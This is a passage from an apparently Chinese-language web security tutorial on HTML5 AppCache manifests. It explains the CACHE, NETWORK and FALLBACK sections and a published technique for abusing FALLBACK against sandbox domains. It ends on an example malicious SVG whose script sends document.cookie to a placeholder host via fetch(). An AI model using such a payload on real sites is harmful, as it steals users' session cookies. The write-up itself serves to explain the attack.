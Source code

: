 这是一种在数年前随H5诞生的一种可以让开发人员指定浏览器缓存哪些文件以供离线访问，在缓存情况下，即使用户在离线状态刷新页面也同样不会影响访问。

Appcache的开启方法是在html标签下添加manifest属性
```
<html manifest="example.appcache">
  ...
</html>
```

这里的`example.appcache`可以是相对路径也可以是绝对路径，清单文件的结构大致如下：
```
CACHE MANIFEST
# 2010-06-18:v2

# Explicitly cached 'master entries'.
CACHE:
/favicon.ico
index.html
stylesheet.css
images/logo.png
scripts/main.js

# Resources that require the user to be online.
NETWORK:
login.php
/myapi
http://api.twitter.com

# static.html will be served if main.py is inaccessible
# offline.jpg will be served in place of all images in images/large/
# offline.html will be served in place of all other .html files
FALLBACK:
/main.py /static.html
images/large/ images/offline.jpg
*.html /offline.html
```

CACHE：
这是条目的默认部分。系统会在首次下载此标头下列出的文件（或紧跟在 CACHE MANIFEST 后的文件）后显式缓存这些文件。

NETWORK：
此部分下列出的文件是需要连接到服务器的白名单资源。无论用户是否处于离线状态，对这些资源的所有请求都会绕过缓存。可使用通配符。

FALLBACK：
此部分是可选的，用于指定无法访问资源时的后备网页。其中第一个 URI 代表资源，第二个代表后备网页。两个 URI 必须相关，并且必须与清单文件同源。可使用通配符。

这里有一点儿很重要，关于Appcache，**您必须修改清单文件本身才能让浏览器刷新缓存文件**。

去年@filedescriptor公开了一个利用Appache来攻击沙箱域的方法。

[https://speakerdeck.com/filedescriptor/exploiting-the-unexploitable-with-lesser-known-browser-tricks?slide=16](https://speakerdeck.com/filedescriptor/exploiting-the-unexploitable-with-lesser-known-browser-tricks?slide=16)

这里正是使用了Appcache的FALLBACK文件，我们可以通过上传恶意的svg文件，形似
```
<svg xmlns="http://www.w3.org/2000/svg">
<script>fetch(`https://my-domain/?${document.cookie}`)</script>
</svg>
```

